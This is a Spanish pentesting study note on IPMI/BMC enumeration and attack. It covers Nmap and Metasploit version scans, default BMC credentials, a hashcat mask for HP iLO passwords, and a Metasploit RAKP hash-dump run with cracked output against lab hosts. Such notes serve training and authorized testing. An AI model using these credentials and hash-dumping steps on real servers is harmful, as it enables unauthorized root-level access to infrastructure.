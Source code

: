 ```yaml
---
{"dg-publish":true,"permalink":"/hacking/hosts/ipmi/","dgPassFrontmatter":true}
---
```



-------------
#hosts #ipmi #servicios 

---------------

## Huella del servicio

IPMI se comunica a través del puerto 623 UDP. Los sistemas que utilizan el protocolo IPMI se denominan controladores de administración de placa base (BMC). Por lo general, los BMC se implementan como sistemas ARM integrados que ejecutan Linux y se conectan directamente a la placa base del host. Los BMC están integrados en muchas placas base, pero también se pueden agregar a un sistema como una tarjeta PCI. La mayoría de los servidores vienen con un BMC o admiten la adición de un BMC. Los BMC más comunes que vemos a menudo durante las pruebas de penetración internas son HP iLO, Dell DRAC y Supermicro IPMI. Si podemos acceder a un BMC durante una evaluación, obtendríamos acceso completo a la placa base host y podríamos monitorear, reiniciar, apagar o incluso reinstalar el sistema operativo host. Obtener acceso a un BMC es casi equivalente al acceso físico a un sistema. Muchos BMC (incluidos HP iLO, Dell DRAC y Supermicro IPMI) exponen una consola de administración basada en la web, algún tipo de protocolo de acceso remoto de línea de comandos como Telnet o SSH, y el puerto 623 UDP, que, nuevamente, es para el protocolo de red IPMI. A continuación se muestra un ejemplo de análisis de Nmap que utiliza el script NSE [de la versión ipmi de](https://nmap.org/nsedoc/scripts/ipmi-version.html) Nmap para colocar el servicio.

#### Nmap

  IPMI

```shell-session
zunderrubb@htb[/htb]$ sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local

Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-04 21:48 GMT
Nmap scan report for ilo.inlanfreight.local (172.16.2.2)
Host is up (0.00064s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version:
|   Version:
|     IPMI-2.0
|   UserAuth:
|   PassAuth: auth_user, non_null_user
|_  Level: 2.0
MAC Address: 14:03:DC:674:18:6A (Hewlett Packard Enterprise)

Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds
```

Aquí, podemos ver que el protocolo IPMI está escuchando en el puerto 623, y Nmap tiene huellas dactilares de la versión 2.0 del protocolo. También podemos utilizar el módulo de escáner de Metasploit [IPMI Information Discovery (auxiliar/scanner/ipmi/ipmi_version).](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_version/)

#### Escaneo de la versión de Metasploit

  IPMI

```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
   RHOSTS     10.129.42.195    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      623              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads


msf6 auxiliary(scanner/ipmi/ipmi_version) > run

[*] Sending IPMI requests to 10.129.42.195->10.129.42.195 (1 hosts)
[+] 10.129.42.195:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0) 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Durante las pruebas de penetración internas, a menudo encontramos BMC en los que los administradores no han cambiado la contraseña predeterminada. Algunas contraseñas predeterminadas únicas que se pueden mantener en nuestras hojas de referencia incluyen:

|Producto|Nombre de usuario|Contraseña|
|---|---|---|
|Dell iDRAC|raíz|Calvin|
|HP iLO|Administrador|Cadena aleatoria de 8 caracteres que consta de números y letras mayúsculas|
|Supermicro IPMI|ADMIN|ADMIN|

También es esencial probar contraseñas predeterminadas conocidas para CUALQUIER servicio que descubramos, ya que a menudo se dejan sin cambios y pueden conducir a ganancias rápidas. Cuando se trata de BMC, estas contraseñas predeterminadas pueden darnos acceso a la consola web o incluso acceso a la línea de comandos a través de SSH o Telnet.

---

## Configuraciones peligrosas

Si las credenciales predeterminadas no funcionan para acceder a un BMC, podemos recurrir a una [falla](http://fish2.com/ipmi/remote-pw-cracking.html) en el protocolo RAKP en IPMI 2.0. Durante el proceso de autenticación, el servidor envía un hash SHA1 o MD5 salado de la contraseña del usuario al cliente antes de que se lleve a cabo la autenticación. Esto se puede aprovechar para obtener el hash de contraseña para CUALQUIER cuenta de usuario válida en el BMC. Estos hashes de contraseña se pueden descifrar sin conexión mediante un ataque de diccionario usando el modo . En el caso de que un HP iLO use una contraseña predeterminada de fábrica, podemos usar este comando de ataque de máscara Hashcat que prueba todas las combinaciones de letras mayúsculas y números para una contraseña de ocho caracteres.`Hashcat``7300``hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u`

No hay una "solución" directa a este problema porque la falla es un componente crítico de la especificación IPMI. Los clientes pueden optar por contraseñas muy largas y difíciles de descifrar o implementar reglas de segmentación de red para restringir el acceso directo a los BMC. Es importante no pasar por alto IPMI durante las pruebas de penetración internas (lo vemos durante la mayoría de las evaluaciones) porque no solo a menudo podemos obtener acceso a la consola web de BMC, lo cual es un hallazgo de alto riesgo, sino que hemos visto entornos en los que se establece una contraseña única (pero descifrable) que luego se reutiliza en otros sistemas. En una de esas pruebas de penetración, obtuvimos un hash IPMI, lo desciframos fuera de línea usando Hashcat y pudimos usar SSH en muchos servidores críticos del entorno como usuario root y obtener acceso a las consolas de administración web para varias herramientas de monitoreo de red.

Para recuperar hashes IPMI, podemos usar el módulo Metasploit [IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/) .

#### Hashes de volcado de Metasploit

  IPMI

```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                 Current Setting                                                    Required  Description
   ----                 ---------------                                                    --------  -----------
   CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
   PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                623                                                                yes       The target port
   THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line



msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
[+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
